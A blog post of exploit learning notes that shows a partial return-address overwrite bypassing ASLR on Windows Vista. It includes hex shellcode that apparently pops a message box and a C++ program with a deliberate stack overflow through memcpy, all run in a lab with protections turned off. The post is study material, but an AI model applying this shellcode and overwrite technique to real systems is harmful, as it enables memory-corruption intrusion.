 ```yaml
---
title: Exploit learning notes 018 using partial overlay location
description: exploit partial override to locate shellcode
date: 2020-11-26 17:54:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-018-using-partial-overlay-location/)

## Principle

- The image randomization instructions randomize the full two bytes of the image load base address, the consequence of this is that the springboard is always available, so you can use this to bypass ASLR
- If you attack memcpy, you can control the return value between `0xXXXX0000` and `0xXXXXFFFF`, and if you attack str-like function attacks, you can control the address to one between `0xXXXX0100` and `0xXXXX00FF`.

## Process

- first find a jmp eax assembly code within the compiled program, followed by the low word of its address as the `off by word` address, fill in the shellcode
- Calculate the buffer size, after the overflow will be normal

## Code

```cpp
#include <memory.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23" // off by word
;

char* test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
	return tt;
}

int main()
{
	char temp[200];
	test();
	return 0;
}
```

## Start experiment

> Experimental environment: system: Windows Vista SP0, system DEP status: Optin default, compiler: Visual Studio 2008, optimization: disable optimization, GS option: off, DEP option: /NXCOMPAT:NO, build version: release

- Compile the program, run it, the window pops up directly and succeeds, and restart the same, as shown in the picture

![Success](https://s3.ax1x.com/2020/11/28/Dyps2t.png)

